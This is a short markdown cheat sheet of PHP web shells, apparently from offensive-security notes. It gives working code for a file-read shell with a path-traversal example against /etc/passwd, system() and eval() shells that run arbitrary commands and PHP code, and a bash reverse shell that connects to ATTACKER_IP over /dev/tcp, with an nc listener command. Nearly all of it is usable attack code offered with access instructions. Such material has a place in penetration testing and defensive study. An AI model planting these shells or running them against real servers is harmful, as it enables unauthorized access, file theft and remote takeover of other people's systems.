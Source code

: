 # Web Shells

## Different Web Shells
### Read File Contents (Traversal-style LFI)

```php 
<?php 
	echo file_get_contents($_GET['file']); 
?>
```

- **Access via**: `shell.php?file=../../../../etc/passwd`
- Can be used for **file traversal** and **LFI-style reads**

### Execute System Commands (Command Execution Shell)

```php
<?php 
	system($_GET['cmd']); 
?>
```

- **Access via**: `shell.php?cmd=id` or `cmd=whoami`
- Run arbitrary commands on the server

### Eval-Based Execution Shell (Code Execution Shell)

```php
<?php 
	eval($_GET['cmd']); 
?>
```

- **Access via**: `shell.php?cmd=echo 'whoami';`
- Highly dangerous — allows execution of **PHP code**
- Use with caution; PHP functions, `file_put_contents`, etc. can be abused

### Web Reverse Shell (Connect Back to Listener)

```php
<?php
	exec("/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'");
?>
```

- **Replace `ATTACKER_IP`** with your IP
- Run a listener on your machine:  

  ```bash
  nc -lvnp 4444
  ```

- Grants persistent shell
